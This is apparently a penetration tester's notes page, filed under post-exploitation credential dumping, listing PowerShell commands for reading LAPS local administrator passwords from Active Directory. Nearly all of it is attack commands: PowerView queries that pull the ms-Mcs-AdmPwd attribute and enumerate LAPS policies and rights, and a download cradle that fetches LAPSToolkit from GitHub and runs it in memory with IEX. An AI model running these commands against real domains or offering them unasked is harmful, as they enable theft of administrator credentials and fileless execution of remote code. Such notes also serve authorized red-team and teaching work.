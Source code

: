 # Scripts

## PowerSploit

```
PS C:\> Import-Module .\PowerView.ps1
```

Retrieve password.

```
PS C:\> Get-DomainObject -Identity <IP> -Properties ms-Mcs-AdmPwd
```

Find GPOs that have `LAPS` or some other descriptive term in the name.

```
PS C:\> Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | Select-Object DisplayName, Name, GPCFileSysPath | Format-List
```

Search computer objects where the `ms-Mcs-AdmPwdExpirationTime` property is not null (any Domain User can read this property).

```
PS C:\> Get-DomainObject -SearchBase "LDAP://[DC=<subdomain>,]DC=<domain>,DC=<tld>" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```

```powershell
Get-NetOU -FullData | Get-ObjectAcl -ResolveGUIDs | Where-Object {
($_.ObjectType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty') 
}
```

## LAPSToolkit

Download cradle through memory.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/leoloobeek/LAPSToolkit/refs/heads/master/LAPSToolkit.ps1')
```

```
PS C:\> Get-LAPSComputers
```

```
PS C:\> Find-LAPSDelegatedGroups
```

```
PS C:\> Find-AdmPwdExtendedRights
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - OS Credential Dumping/Windows/Active Directory/LAPS/Manual/Living off the Land]]

### Github

- [leoloobeek: LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)
